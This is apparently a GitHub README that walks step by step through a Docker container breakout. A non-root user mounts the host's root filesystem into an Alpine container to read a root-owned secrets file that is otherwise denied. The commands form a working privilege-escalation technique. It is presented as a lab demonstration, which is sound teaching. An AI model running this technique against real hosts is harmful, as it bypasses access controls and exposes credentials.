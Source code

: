 ## Container-Breakout
* Step 1: Open terminal
* Step 2: Change directory

	 `cd /root/`
	 
* Step 3: Create a file with some sensitive information
	
	`echo "strong-password" > secrets.txt`	
	
* Step 4: Login as a different user `foobar`

	`su foobar`
	
* Step 5: Try to access `/root/` folder
	
	`cd /root/`
	
	You will see Permission Denied warning
	
	![Image](./img/403.png)
    
* Step 6: Now run a new docker image with `/` volume exposed to docker
	
	`docker run -it -v /:/testdir alpine sh`
	
* Step 7: Now you are inside a docker container 
	
	![Image](./img/inside-docker.png)	
	
* Step 8: Now change the directory to `/testdir/root/`

	`cd /testdir/root/`
	
	![Image](./img/change-root-dir.png)
	
* Step 9: Now try to print the `secrets.txt` file which was created on the host machine

	`cat secrets.txt`
	
	![Image](./img/cat-secrets.png)
	
	
* Step 10: Exit the docker container 

	`exit`

* Step 11: Logout as `foobar`			

	`exit`
	
	
	

